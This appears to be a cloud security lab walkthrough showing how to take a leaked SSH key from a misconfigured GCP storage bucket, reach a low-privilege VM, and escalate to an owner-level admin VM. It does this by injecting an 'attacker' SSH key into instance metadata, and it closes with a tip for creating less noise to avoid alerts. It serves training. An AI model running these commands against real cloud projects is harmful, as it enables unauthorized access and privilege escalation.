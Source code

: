 # Objective

We will find the credential for a low privileged virtual machine instance from the dev bucket. Then access other high privileged compute instances using the low privileged machine.

# Solution

**Step 1:** List out the content of the dev bucket, you compromised from the misconfigured storage bucket.

![](https://user-images.githubusercontent.com/54552051/204803801-bfa0ab6c-402b-4321-8342-71bd893941b0.png)

![](https://user-images.githubusercontent.com/54552051/205142814-573502ad-3ec6-4809-bee3-65feb557275c.png)

In the bucket contents, you will find an interesting file named **config.txt** as highlighted in the above image. Copy the relative path for the file. There are some key files also in the same directory.

**Step 2:** Access the config.txt file using the relative path at the end of the bucket URL.

```
https://storage.googleapis.com/<DEV BUCKET NAME>/shared/files/.ssh/config.txt
```

![](https://user-images.githubusercontent.com/54552051/205142819-b7995b20-e022-4bea-acbe-ff7b2e2e29d9.png)

Here you will find multiple IPs with some users and their SSH key relative paths.

**Step 3:** Run the Nmap scan on the IP addresses using the below command.

```
nmap <IP_ADDR> -Pn
```

**Note:** Replace the IP_ADDR with the host IPs found in the config file.

![](https://user-images.githubusercontent.com/54552051/205142823-790fa47b-7e97-4560-8e96-beec334fb8f7.png)

One of the IP addresses will have port 22 open.

If you match this IP address in the config file, it will be for the user **justin**. 

![](https://user-images.githubusercontent.com/54552051/205142825-2499551e-66e3-42be-ba6e-e4695504a2ca.png)

Copy the relative path for the SSH key.

**Step 4:** Download the SSH key onto your system and change the permissions of the file using chmod command.

```
wget https://storage.googleapis.com/<DEV BUCKET NAME>/shared/files/.ssh/keys/justin.pem

chmod 400 justin.pem
```

These commands will download the key file and change the permissions to read-only for the current user only.

![](https://user-images.githubusercontent.com/54552051/204803874-678a0170-9152-4191-b7bc-24d8deb14e44.png)

**Step 5:** Access the virtual machine using the ssh key just downloaded.

```
ssh -i justin.pem justin@<IP_ADDR>
```

**Note:** Replace IP_ADDR with the IP address corresponding to justin in the config file.

![](https://user-images.githubusercontent.com/54552051/205142790-5ef8ec1e-a9b4-4ad1-88e8-0e73d2ad331d.png)

You will be successfully logged into the cloud virtual machine.

**Step 6:** Get the service account and project details using the below gcloud command.

```
gcloud config list
```

![](https://user-images.githubusercontent.com/54552051/205142797-792178a3-f93c-412f-a1af-f5efcd7aebd8.png)

This VM seems to be using default compute service account. The default service account has **Editor** level access to the project. But often restricted by access scopes.

**Step 7:** Check access scope for the VM using metadata API.

```
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \
    -H 'Metadata-Flavor:Google'
```

![](https://user-images.githubusercontent.com/54552051/204803882-2c67e546-f990-458e-a7bc-a3b92dd3713e.png)

We don't have full API access on the project, but we do have full access to compute services and read access for the buckets.

**Step 8:** List out all the compute instances inside the project.

```
gcloud compute instances list
```

![](https://user-images.githubusercontent.com/54552051/205142799-4fd6f317-ab28-4a53-8cbd-284c3977ca8a.png)

Here we have another VM inside the project named as **admin-vm**. Note down the public IP address for the admin VM.

We will access this VM by modifying its metadata.

**Step 9:** Create a new SSH key for a user **attacker** using the below command.

```
ssh-keygen -t rsa -C "attacker" -f ./key -P "" && cat ./key.pub
```

![](https://user-images.githubusercontent.com/54552051/204803886-c7f73a5e-e221-4c3b-a8d6-78ccff403085.png)

A public and private key pair will be created for a user attacker. The public key is in **key.pub** file and the private key is in **key** file.

**Step 10:** Create a meta.txt file consisting of the user and the public key for this user.

```
NEWKEY="$(cat ./key.pub)"
echo "attacker:$NEWKEY" > ./meta.txt
```

We are storing the public key in the **NEWKEY** variable and then adding the USER:KEY data to the meta.txt file.

![](https://user-images.githubusercontent.com/54552051/204803887-a64505ca-1f0f-4fbf-92f2-6882b3e50119.png)

You can check the meta.txt file using the **cat** command.

**Step 11:** Update the metadata of the admin-vm instance using the below command.

```
gcloud compute instances add-metadata admin-vm --metadata-from-file ssh-keys=meta.txt
```

This command will add the content of meta.txt in the **ssh-keys** section of the instance metadata.

![](https://user-images.githubusercontent.com/54552051/204803892-a0e84265-54a3-4833-a00d-1719e5f8bfa4.png)

Hit **Y** if asked for the zone of the instance.

**Step 12:** Verify the metadata is updated for the admin-vm instance using the below gcloud command.

```
gcloud compute instances describe admin-vm --zone us-west1-c
```

![](https://user-images.githubusercontent.com/54552051/205142802-68bd0835-4aa1-45e3-b765-3f8fd6658c92.png)

![](https://user-images.githubusercontent.com/54552051/204803896-d619b6c8-832f-42f7-bdfd-cfef28a7da51.png)

There is a key added to the **ssh-keys** section for the attacker user. You can follow the same method to update the SSH keys of an existing user.

**Step 13:** Log in to the admin-vm using the newly created key.

```
ssh -i ./key attacker@<IP_ADDR>
```

**Note:** Replace the IP_ADDR with the public IP of admin-vm instance.

![](https://user-images.githubusercontent.com/54552051/205142808-5856c012-81ba-4c71-870d-9cfe765a0612.png)

You will be successfully logged in to the admin-vm with the attacker user. By default, the user will have sudo access as it was added through the metadata of this instance.

**Step 14:** Check for the project name and service account attached to this VM using the below gcloud command.

```
gcloud config list
```

![](https://user-images.githubusercontent.com/54552051/205142811-e886d5a9-a815-4696-8ad3-f8fe72284273.png)

A service account named **admin-service-account** is attached to this instance. Note down the project name.

**Step 15:** Get the IAM policy of the project to check the access of this service account using the below gcloud command.

```
gcloud projects get-iam-policy <PROJECT NAME>
```

**Note:** Replace the PROJECT NAME with the project id you got from previous step.

![](https://user-images.githubusercontent.com/54552051/204803909-45b0631b-2f5a-42f2-83c0-b1c5b322252c.png)

You can see that this service account has the **owner** role on this project.

**Step 16:** Check access scope for the VM using metadata API.

```
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes \
    -H 'Metadata-Flavor:Google'
```

![](https://user-images.githubusercontent.com/54552051/204803913-555e4ff9-5116-4bef-aeec-706975a318a3.png)

**cloud-platform** access scope means that we have full API access. This instance has full owner access over the project.


**Step 17:** Login to the admin-vm from the developer VM using a simple command.

```
gcloud compute ssh admin-vm
```

This command will add the current user to the admin-vm instance by modifying the metadata.

![](https://user-images.githubusercontent.com/54552051/204803915-5f6ab5c1-8246-4b3c-927a-c03fdc7f5097.png)

![](https://user-images.githubusercontent.com/54552051/204803920-1c4cb0a4-0755-42df-bbca-92b2227206fc.png)

You are now logged in to the admin-vm with user **justin**.

This method seems very easy but can trigger some alerts as a new user and ssh key are added to the VM. By using the previous method you can also change the SSH keys of any existing user. Thus creating less noise in the environment.